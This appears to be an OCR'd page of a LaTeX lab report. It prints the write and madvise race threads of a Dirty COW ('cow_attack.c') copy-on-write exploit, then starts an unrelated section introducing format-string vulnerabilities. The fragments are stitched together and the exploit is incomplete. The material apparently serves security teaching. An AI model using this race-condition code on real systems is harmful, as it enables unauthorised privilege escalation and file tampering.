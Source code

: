 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{\texttt{write} thread: \texttt{cow\_attack.c}}
\begin{verbatim}
void *writeThread(void *arg)
{
    //Content to overwrite
    char *content="5555555555";
    off_t offset = (off_t) arg;

    int f=open("/proc/self/mem", O_RDWR);
    while(1) {
        //Move file pointer to corresponding position.
        lseek(f, offset, SEEK_SET);
        //Write to memory.
        write(f, content, strlen(content));
    }
}
\end{verbatim}
\subsection{\texttt{madvise} thread: \texttt{cow\_attack.c}}
\begin{verbatim}
void *madviseThread(void *arg)
{
    int file_size = (int) arg;
    while(1) {
        madvise(map, file_size, MADV_DONTNEED);
    }
}
\end{verbatim}













\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		\textbf{String Format Vulnerability}\\		
		\vfill
	\end{center}
\end{titlepage}

\newpage
{}
\setcounter{section}{0}
\section{Introduction}
An uncontrolled format string is an vulnerability where the user input can be used to inject malicious code read from an arbitrary memory region or to crash a program. This vulnerability stems from the use of the print symbols \texttt{\%s}, \texttt{\%x} and \texttt{\%n} as languages such as \texttt{C} are not type-safe. This will create an environment where the stack is popped multiple times, depending on the number of print symbols used and may reveal data in sensitive areas that are otherwise privileged.
\end{document}
